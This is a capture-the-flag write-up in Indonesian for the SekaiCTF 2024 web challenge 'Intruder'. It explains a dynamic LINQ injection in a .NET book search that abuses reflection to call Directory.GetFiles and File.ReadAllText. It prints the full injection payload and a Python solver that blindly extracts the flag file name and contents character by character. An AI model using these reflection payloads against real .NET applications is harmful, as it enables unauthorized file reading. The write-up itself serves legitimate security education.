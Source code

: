 # Intruder - Web - SekaiCTF 2024

Pada challenge kali ini terdapat kerentanan SQLinjection dengan memanfaatkan reflection pada `.NET`. Pada challenge ini aplikasi akan menggabungkan inputan pengguna ke dalam query `LINQ` tanpa ada sanitasi yang memadai. Hal ini memungkinkan kita untuk menjalankan kode seperti `.GetType().Assembly.DefinedTypes` yang merupakan code `C#` yang bukan bagian dari `SQL`.

dengan memanfaatkan kode `C#` ini memungkinkan kita untuk membaca file `flag` yang terdapat pada direktori `/`.

namun karena flag disimpan di direktori `/` dengan nama yang acak dengan format `/flag_'cat /proc/sys/kernel/random/uuid'.txt`, kita harus melakukan fuzzing nama file `flag` terlebih dahulu, sebelum melakukan fuzzing isi dari file `flag`.

## Fuzzing Filename

berikut merupakan payload untuk melakukan fuzzing nama file flag:
```clike
'Harry") AND "".GetType().Assembly.DefinedTypes.First(x => x.FullName == "System"+"."+"String").DeclaredMethods.Where(x => x.Name == "StartsWith").First().Invoke("".GetType().Assembly.DefinedTypes.First(x => x.FullName == "System.Array").DeclaredMethods.Where(x => x.Name == "GetValue").Skip(1).First().Invoke("".GetType().Assembly.DefinedTypes.First(x => x.FullName == "System.IO.Directory").DeclaredMethods.Where(x => x.Name == "GetFiles").Skip(1).First().Invoke(null, new object[] { "/", "flag*.txt" }), new object[] { 0 }), new object[] { "/'+payload+'" }).ToString()=="True" AND ("xx"="xx'
```

saya akan membagi payload diatas menjadi 3 bagian. 

### Paylaoad #1
```clike
"".GetType().Assembly.DefinedTypes.First(x => x.FullName == "System"+"."+"String").DeclaredMethods.Where(x => x.Name == "StartsWith").First()
```
bagian pertama untuk mengambil `System.String` dari assembly .NET, kemudian mencari metode yang disebut `StartsWith` pada `System.String`.

### Paylaoad #2
```clike
"".GetType().Assembly.DefinedTypes.First(x => x.FullName == "System.Array").DeclaredMethods.Where(x => x.Name == "GetValue").Skip(1).First()
```
payload bagian 2 mebambil`System.Array` dari assembly .NET lalu mencari `GetValue`. `Skip(1)` melewati metode pertama dan memilih metode kedua. Ini penting karena metode GetValue bisa memiliki overload, dan kita memilih metode tertentu.

### Paylaoad #3
```clike
"".GetType().Assembly.DefinedTypes.First(x => x.FullName == "System.IO.Directory").DeclaredMethods.Where(x => x.Name == "GetFiles").Skip(1).First().Invoke(null, new object[] { "/", "flag*.txt" }), new object[] { 0 }), new object[] { "/'+payload+'" }).ToString()=="True"
```
Ini mengakses tipe `System.IO.Directory` dan mencari metode `GetFiles`, yang digunakan untuk mencari file dalam direktori. `Invoke(null, new object[] { "/", "flag*.txt" })` memanggil metode GetFiles untuk mencari file dengan pola flag*.txt di direktori root (/).

Metode `StartsWith` digunakan untuk memverifikasi apakah nama file yang ditemukan dimulai dengan string yang diberikan `(yaitu /'+payload+')`.

dan untuk mendapatkan membaca isi dari `flag`, kurang lebih cara nya sama seperti mendapatkan filename, berikut merupakan kode solvernya

## Sovler Code
```python
import httpx
import asyncio
from urllib.parse import quote_plus

URL = 'http://localhost:8080'
PARAM = '/Books?searchString='

class BaseAPI:
    def __init__(self, url=URL):
        self.c = httpx.AsyncClient(base_url=url)

    async def visit(self, param=PARAM, c=''):
        sqli = quote_plus(
            'Harry") AND "".GetType().Assembly.DefinedTypes.First(x => x.FullName == "System"+"."+"String").DeclaredMethods.Where(x => x.Name == "StartsWith").First().Invoke("".GetType().Assembly.DefinedTypes.First(x => x.FullName == "System.Array").DeclaredMethods.Where(x => x.Name == "GetValue").Skip(1).First().Invoke("".GetType().Assembly.DefinedTypes.First(x => x.FullName == "System.IO.Directory").DeclaredMethods.Where(x => x.Name == "GetFiles").Skip(1).First().Invoke(null, new object[] { "/", "flag*.txt" }), new object[] { 0 }), new object[] { "/'+c+'" }).ToString()=="True" AND ("xx"="xx'
        )
        return await self.c.get(param + sqli)

    async def visit_flag(self, param=PARAM, filename='', c=''):
        sqli = quote_plus(
            'Harry") AND "".GetType().Assembly.DefinedTypes.First(x => x.FullName == "System"+"."+"String").DeclaredMethods.Where(x => x.Name == "StartsWith").First().Invoke("".GetType().Assembly.DefinedTypes.First(x => x.FullName == "System"+".IO."+"File").DeclaredMethods.Where(x => x.Name == "ReadAllText").First().Invoke(null, new object[] { "/'+filename+'" }), new object[] { "' + c + '" }).ToString()=="True" AND ("xx"="xx'
        )
        return await self.c.get(param + sqli)

class API(BaseAPI):
    pass

async def worker(api):
    filename = ''
    flag = ''
    fuzz = 'flag_-01234567890abcdef.txt'
    fuzz_flag = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_{}'
    
    while not filename.endswith('.txt'):
        for c in fuzz:
            res = await api.visit(c=filename+c)
            if 'No books found.' in res.text:
                continue
            else:
                filename += c
                print(filename)
    
    while not flag.endswith('}'):
        for c in fuzz_flag:
            res = await api.visit_flag(filename=filename, c=flag+c)
            if 'No books found.' in res.text:
                continue
            else:
                flag += c
                print(flag)

async def main():
    api = API()
    await worker(api)

if __name__ == '__main__':
    asyncio.run(main())
```

